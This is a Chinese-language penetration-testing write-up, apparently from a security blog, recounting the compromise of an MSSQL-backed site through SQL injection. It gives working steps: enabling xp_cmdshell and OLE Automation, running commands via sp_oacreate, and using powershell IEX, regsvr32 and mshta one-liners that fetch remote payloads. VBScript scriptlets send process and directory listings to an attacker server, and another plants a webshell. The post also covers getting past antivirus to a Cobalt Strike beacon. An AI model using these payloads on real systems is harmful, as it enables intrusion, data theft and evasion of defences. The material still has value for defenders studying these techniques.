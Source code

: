 ### 13.1 某次项目技术点实录-Regsvr32 ole对象

**由于环境都无法进行演示，目前取得都是历史留存的截图**

**1、突破口**

一开始是一个外网的SQL注入，通过sqlmap正常操作，得知是DBA权限，数据库：MSSQL

    sqlmap.py -u "http://xxx.com/xxx/xxx.aspx?yum=xx&xx=xx" -p yhm --random-agent --cookie='ASP.NET_SessionId=xxxx'
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210203870.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

直接通过`--os-shell`来执行命令：

    [18:39:23] [INFO] checking if xp_cmdshell extended procedure is available, please wait..
    xp_cmdshell extended procedure does not seem to be available. Do you want sqlmap to try to re-enable it? [Y/n] Y
    [18:39:25] [WARNING] xp_cmdshell re-enabling failed
    
        

**启用xp\_cmdshell**

**手动启动语句：**

    EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
    
        

**执行：**

    exec master..xp_cmdshell "whoami"
    
        

**启用OLE Automation**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210258589.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
通过启用xp\_cmdshell失败，sqlmap还会尝试`sp_OACreate`，`sp_OACreate`这个方式是不带回显的，通常利用语句如下：

    EXEC sp_configure 'show advanced options', 1;   
    RECONFIGURE WITH OVERRIDE;   
    EXEC sp_configure 'Ole Automation Procedures', 1;
    RECONFIGURE WITH OVERRIDE;   
    EXEC sp_configure 'show advanced options', 0;
    
        

执行：

    declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
    
        

通过调用`sp_oacreate`能够获得一个数字返回值，若全是0，则执行失败，必须有1。

**2、判断网络环境**

能执行命令后，为了判断能否出网，先尝试DNS Log。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210439918.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210446254.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
在`os-shell`中，执行：`nslookup xxxxx.net`，burp看回显即可。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210456947.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
DNS能出，接下来看TCP报文…

这里我使用`certutil、bitsadmin`命令来测试，但是么有截图…

    $ python3 -m http.server
    os-shell>certutil -urlcache -split -f http://xxx:8000/
    
        

收到相应的请求后，基本上稳妥了，可以采用reverse\_tcp的方案，用powershell反弹一个beacon到cobalt strike上。

**3、Regsvr32妙用**

测试的过程中，并不顺利，后来我发现它有反病毒软件…

尝试了以下方法：

    powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://xx.xx.xx.xx/a22'))"
    
    regsvr32 /s /n /u /i:http://x.x.0.x:8080/zfgJrh6V.sct scrobj.dll
    
    mshta http://xxx.xx.xx.xx/1.hta
    
        

然后我发现`msf exploit/multi/script/web_delivery`生成的地址，都会在底层调用一层powershell-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210652946.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

目前，这种download+iex方式肯定不行了，然后我就改了几个脚本，通过HTTP Log来回显执行结果：

获取进程列表：

    <?XML version="1.0"?>
    <scriptlet>
    	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
    		<script language="vbscript">
    <![CDATA[
    Sub getName(name)
      	Dim http
    	Set http = CreateObject("Msxml2.ServerXMLHTTP")
    	http.open "GET","http://xxx.xxx.xxx.xxx:8086/"+name, False
    	http.send
    End Sub
    
    Sub Cmd(command)
    Set oShell = CreateObject("WScript.Shell")
    Set Re = oShell.Exec(command)
    
    Do While Not Re.StdOut.AtEndOfStream
    	getName Re.StdOut.ReadLine()
    Loop
    End Sub
    
    Cmd "powershell -w hidden -c $s=Get-Process;$process ='';foreach ($n in $s){$process += $n.Name+'|'}$Bytes = [System.Text.Encoding]::Unicode.GetBytes($process);$EncodedText =[Convert]::ToBase64String($Bytes);Write-Host $EncodedText;exit;"
    ]]>
    		</script>
    	</registration>
    </scriptlet>
    
        

**执行：**

    wmic process call create "regsvr32 /s /n /u /i:http://xxx.xxx.xxx.xxx:8086/p.txt scrobj.dll"
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210722795.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

获得回显。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210735580.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210743960.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
获得进程列表后，看到有`EST Nod32、360`等防护软件，看来需要做的工作有很多。

列目录：

    <?XML version="1.0"?>
    <scriptlet>
    	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
    		<script language="vbscript">
    <![CDATA[
    Sub getName(name)
      	Dim http
    	Set http = CreateObject("Msxml2.ServerXMLHTTP")
    	http.open "GET","http://xxx.xxx.xxx.xxx:8086/"+name, False
    	http.send
    End Sub
    
    Sub Cmd(command)
    Set oShell = CreateObject("WScript.Shell")
    Set Re = oShell.Exec(command)
    
    Do While Not Re.StdOut.AtEndOfStream
    	getName Re.StdOut.ReadLine()
    Loop
    End Sub
    
    Cmd "powershell -w hidden -c $s=Get-ChildItem D:\web4_new\;$process ='';foreach ($n in $s){$process += $n.Name+'|'}$Bytes = [System.Text.Encoding]::Unicode.GetBytes($process);$EncodedText =[Convert]::ToBase64String($Bytes);Write-Host $EncodedText;exit;"
    ]]>
    		</script>
    	</registration>
    </scriptlet>
    
        

下载Webshell：

    <?XML version="1.0"?>
    <scriptlet>
    	<registration progid="d08c96" classid="{cea46581-c344-4157-b891-30f358f1522d}" >
    		<script language="vbscript">
    		<![CDATA[
    Set Shell = CreateObject("Wscript.Shell")
    Set Post = CreateObject("Msxml2.XMLHTTP")
    wfolder = "C:\inetpub\wwwroot\xxx\111english.aspx"
    Post.Open "GET","http://xxx.xxxx.xxx.xxx:85/bak/english.txt",0
    Post.Send()
    Set aGet = CreateObject("ADODB.Stream")
    aGet.Mode = 3
    aGet.Type = 1
    aGet.Open()
    aGet.Write(Post.responseBody)
    
    aGet.SaveToFile wfolder,2
    
    		]]>
    		</script>
    	</registration>
    </scriptlet>
    
        

通过指定不同的txt，执行不同的代码。-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101121084128.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

当然，毫无疑问的最终获得了beacon：

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210855423.png%23pic_center)-
免杀环节就不记录了。

**4、总结**-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210921228.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
外网多个SQL注入-SQL Server DBA，无回显，360+ESET NOD32 Antivirus，regsvr32通过一个ole对象执行VBscript，使用`--os-shell`，底层执行的父进程是一个mssql service，所以av可能不那么关注，但是通过–os-shell直接创建powershell，就会被拦截；

通过加载我服务器上的sct文件，执行自定义的vbs之外，我发现它不会阻止vbs派生powershell；

但是通过vbs直接派生powershell下载代码执行、或直接反弹，都被干掉。由于没有回显，无法确定我免杀的木马落地目录，只能用powershell获取目录、当前用户情况，返回base64，交给vbs，请求http log。得到服务器环境，最终确定落地目录后，基本上就可以getshell、上线等操作。

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201011210956406.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
由于反病毒软件会监控xp\_cmdshell，一执行就会返回`CreateProcess Error Code 5`等问题，`sp_oacreate`是能够解决，但是没有回显，可通过发送网络请求来看。

sp\_oacreate是基于ole对象的，ole对象执行拦截的较少、包括regsvr32也是调用的ole对象去执行vbs代码，这其中有一种白名单派生关系。

**语法**

    sp_OACreate progid, | clsid,
    objecttoken OUTPUT
    [ , context ]
    declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
    
        

其中`'wscript.shell'`就是一个对象，这个对象可以是其他ole对象，具体还需要继续发掘

* * *